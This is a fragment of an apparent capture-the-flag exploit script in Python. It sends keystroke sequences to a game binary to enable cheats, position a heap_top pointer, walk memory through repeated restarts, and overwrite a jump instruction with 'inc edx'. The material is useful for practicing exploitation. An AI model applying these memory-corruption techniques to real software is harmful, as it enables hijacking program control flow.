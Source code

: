 ```python
    p.send("waaaaa ")
    p.send("aaa ")
    p.send("aaaaa " * 2)
    p.send("waaaaa "*3)
    p.send("waaa "*4)
    p.send("wa ")
    p.send(" " * 2)
    p.send("ddddd " * 2)
    p.send(" ")
    p.send("ddddd ")
    p.send(" "*5)
    p.sendline("AAA")

def preciseMovements(moves, a, s):
    p.send(moves[0])
    p.send("a" * a)
    p.send("s"*s)
    p.send(moves[1])
    p.send(" ")

def setHeapTop1():
    preciseMovements(["wO", "T"], 5, 18)
    p.send("I" + 3*"a" + " ")
    p.send("I" + "d" + " ")
    p.send("Z" + "d"* 5 + " ")
    preciseMovements(["wO", "T"], 4, 18)
    die("")
    pass

def setHeapTop2():
    preciseMovements(["I", "S"], 5, 19)
    p.send("Iw" + 5*"a" + " ")
    p.send("I" + 2*"a" + " ")
    p.send("I" + 2*"d" + " ")
    p.send("Iw" + "d"* 6 + " ")
    preciseMovements(["wO", "T"], 4, 18)
    die("")
    pass

def restart(name=""):
    global currentScore
    startGame()
    die(name, currentScore)
    currentScore += 1

startGame()
#enable cheats / reveal first flag
enableCheats()


startGame()
#set the heap_top to 0x0040070b
setHeapTop1()

#loop until we reach the first jump to override
for i in range((0x004011ef - 0x0040070b)//4):
    restart()

#override the jump with
#inc edx
restart("BB")

#loop until we reach 0xbadb01
```